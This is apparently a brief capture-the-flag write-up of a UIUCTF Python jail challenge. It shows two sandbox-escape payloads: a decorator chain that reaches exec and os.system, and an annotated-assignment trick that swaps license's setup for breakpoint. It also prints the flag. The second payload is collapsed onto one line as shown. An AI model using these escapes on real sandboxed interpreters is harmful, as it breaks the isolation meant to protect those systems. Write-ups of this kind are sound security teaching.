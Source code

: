 ```yaml
---
ai_date: '2025-04-27 05:21:59'
ai_summary: Exploited function decorators and AnnAssign to bypass restrictions
ai_tags:
- decorator
- annassign
- reflection
created: 2024-06-29T00:39
points: 470
solves: 52
tags:
- AST
updated: 2024-11-23T20:30
---
```


We are not allowed to use the following expressions in python: **assign**, **call**, **import**, **import from**, **binary operation (+-/ etc)**.

First thing that came to mind were function decorators.

```python
@safe_import.__globals__['__builtins__'].exec
@lambda x: 'safe_import.__globals__["__builtins__"].__import__("os").system("ls")'
def x(): 0
```

This is a working payload but it's 3 lines.

So I tried other things such as replacing `safe_import` with my own function but they all failed.

Then my teammates solved it with **AnnAssign**.

```python
builtins: "" = safe_import.__globals__["__builtins__"] license: "" = builtins.license license._Printer__setup: "" = builtins.breakpoint f"{license}"

# uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
```

Never knew python had such a function.